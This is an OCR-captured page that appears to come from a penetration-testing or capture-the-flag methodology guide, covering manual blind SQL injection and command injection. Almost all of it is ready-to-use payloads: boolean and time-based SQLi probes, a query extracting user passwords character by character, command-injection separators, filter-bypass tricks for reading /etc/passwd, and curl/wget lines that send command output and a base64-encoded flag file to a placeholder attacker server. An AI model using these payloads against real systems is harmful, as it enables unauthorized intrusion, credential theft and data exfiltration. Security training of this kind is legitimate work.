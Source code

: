 #### Blind SQLi (Manual)
```bash
# Boolean-based
curl "$TARGET/user?id=1' AND 1=1--"  # Normal response
curl "$TARGET/user?id=1' AND 1=2--"  # Different response

# Time-based
curl "$TARGET/user?id=1' AND SLEEP(5)--"  # Delays 5 seconds

# Extract data char by char
curl "$TARGET/user?id=1' AND SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a'--"
```

### Step 3.2: Command Injection

#### Basic Payloads
```bash
# Test with:
; ls
| ls
& ls
&& ls
`ls`
$(ls)
%0als  # Newline
```

#### Testing in Burp Suite
```
POST /ping HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1; cat /etc/passwd
```

#### Bypass Filters
```bash
# Space bypass
{ls,-la}
$IFS
${IFS}
$IFS$9

# Keyword bypass
c''at /etc/passwd
c\at /etc/passwd
/???/??t /???/??ss??  # Wildcards

# Exfiltration
curl http://your-server.com/`whoami`
wget http://your-server.com/?data=$(cat flag.txt | base64)
```
